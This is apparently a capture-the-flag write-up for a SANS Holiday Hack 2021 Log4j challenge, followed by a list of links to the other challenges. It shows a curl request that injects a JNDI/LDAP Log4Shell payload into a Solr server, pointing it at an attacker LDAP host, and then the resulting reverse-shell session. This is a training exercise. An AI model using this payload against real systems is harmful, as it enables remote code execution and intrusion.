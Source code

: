 # Writeup for SANS Holiday Hack Challenge 2021 – Jack’s Back! featuring KringleCon 4: Calling Birds
# 15. Bonus! Red Log4Jack
The objective is to exploit the recent Log4Jack vulnerability.

## 15.0. Hints
**Log4j Discussion with Bishop Fox** - *Icky McGoop*: “Join Bishop Fox for [a discussion](https://bishopfox.com/blog/log4j-zero-day-cve-2021-44228) of the issues involved.”
**Log4j Red Help Document** - *Icky McGoop*: “Josh Wright's [help document](https://gist.github.com/joswr1ght/fb361f1f1e58307048aae5c0f38701e4) for the Red challenge.”

### 15.1. Solution
We know the vulnerable server is http://solrpower.kringlecastle.com:8983 and that is running Java Solr which is vulnerable to the Log4j attack on its [CoreAdmin APIs](https://solr.apache.org/guide/6_6/coreadmin-api.html). Coding an exploit like the [one presented by Josh Wright](https://solr.apache.org/guide/6_6/coreadmin-api.html), using [marshalsec](https://github.com/mbechler/marshalsec)’s server and then making Solr point to that allowed spawning a reverse shell to the vulnerable server:
```bash
~/web$ curl 'http://solrpower.kringlecastle.com:8983/solr/admin/cores?var=$\{jndi:ldap://172.17.0.2:1389/exploit\}'
{
  "responseHeader":{
    "status":0,
    "QTime":105},
  "initFailures":{},
  "status":{}}
}
```

The reverse shell:
```bash
listening on [172.17.0.2] 4444 ...
connect to [172.17.0.2] from (UNKNOWN) [172.17.0.2] 50324

cat /home/solr/kringle.txt
The solution to Log4shell is patching.
Sincerly,

Santa
```

---
# [2. Where in the World is Caramel Santiaigo?](README.md)
# [2.1. Side Challenge - Exif Metadata](README.md)
# [3. Thaw Frost Tower's Entrance](README.md)
# [3.1. Side Challenge - Grepping for Gold](README.md)
# [4. Slot Machine Investigation](README.md)
# [4.1. Side Challenge - Logic Munchers](README.md)
# [5. Strange USB Device](README.md)
# [5.1. Side Challenge - IPv6 Sandbox](README.md)
# [6. Shellcode Primer](README.md)
# [6.1. Side Challenge - Holiday Hero](README.md)
# [7. Printer Exploitation](README.md)
# [7.0. Description](README.md)
# [8. Kerberoasting on an Open Fire](README.md)
# [8.1. Side Challenge - HoHo … No](README.md)
# [9. Splunk!](README.md)
# [9.1. Side Challenge - Yara Analysis](README.md)
# [10. Now Hiring!](README.md)
# [10.1. Side Challenge - IMDS Exploration](README.md)
# [11. Customer Complaint Analysis](README.md)
# [11.1. Side Challenge - Strace Ltrace Retrace](README.md)
# [12. Frost Tower Website Checkup](README.md)
# [12.1. Side Challenge - The Elf C0de Python Edition](README.md)
# [13. FPGA Programming](README.md)
# [13.1. Side Challenge - Frostavator](README.md)
# [14. Bonus! Blue Log4Jack](README.md)
# [15. Bonus! Red Log4Jack](README.md)
---
# [0. windovo\\thedead> whoami](../README.md)
# [1. KringleCon Orientation](01.%20KringleCon%20Orientation/README.md)
# [16. That’s how Jack came from space](../README.md#16-thats-how-jack-came-from-space)
# [17. Narrative](../README.md#17-narrative)
# [18. Conclusions](../README.md#18-conclusions)